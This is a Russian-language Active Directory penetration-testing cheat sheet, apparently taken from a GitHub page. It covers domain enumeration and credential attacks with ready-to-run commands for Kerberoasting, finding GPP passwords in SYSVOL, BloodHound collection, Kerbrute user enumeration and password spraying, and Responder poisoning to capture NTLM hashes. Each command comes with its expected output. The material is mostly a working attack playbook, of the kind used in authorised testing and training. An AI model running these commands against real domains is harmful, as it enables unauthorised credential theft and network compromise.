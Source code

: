 ### Kerberoast (GetUserSPNs.py)

```bash
GetUserSPNs.py domain/ -dc-ip <DC_IP> -request -outputfile krb5tgs.hash
```

*Действие:* запрашивает TGS для аккаунтов с SPN.
*Ожидается:* krb5tgs.hash (формат для офлайн подбора).

### Поиск GPP паролей в SYSVOL

```bash
smbclient //<DC_IP>/SYSVOL -U 'DOMAIN\\user' -c 'recurse; ls' | grep -i -E 'Groups.xml|Services.xml|cpassword'
```

*Действие:* ищет GPP XML с cpassword.
*Ожидается:* линии с cpassword или найденные XML-файлы.

### Сбор SharpHound (PowerShell)

```powershell
Invoke-BloodHound -CollectionMethod All -Domain DOMAIN.LOCAL -ZipFileName bloodhound_all.zip
```

*Действие:* collect-all для BloodHound.
*Ожидается:* zip с JSON-экспортом для загрузки в BloodHound.

---

## Фаза 3 — Credential attacks

### Kerbrute — enum пользователей

```bash
kerbrute userenum --dc <DC_IP> -d domain.local users.txt --threads 50 -o kerbrute_found.txt
```

*Действие:* проверяет существование пользователей через Kerberos.
*Ожидается:* kerbrute\_found.txt с валидными логинами.

### Kerbrute — password spraying

```bash
kerbrute passwordspray --dc <DC_IP> -d domain.local users.txt 'Password1!' --threads 20 --safe
```

*Действие:* один пароль против списка пользователей с защитой от блокировок.
*Ожидается:* отчет об успешных попытках или предупреждение о lockout.

### Responder — LLMNR/NBT-NS poison

```bash
sudo responder -I eth0 -r -d -w
```

*Действие:* отвечает на LLMNR/NetBIOS запросы и ловит NTLM-хэши.
*Ожидается:* лог-файлы в каталоге Responder с захваченными хэшами.
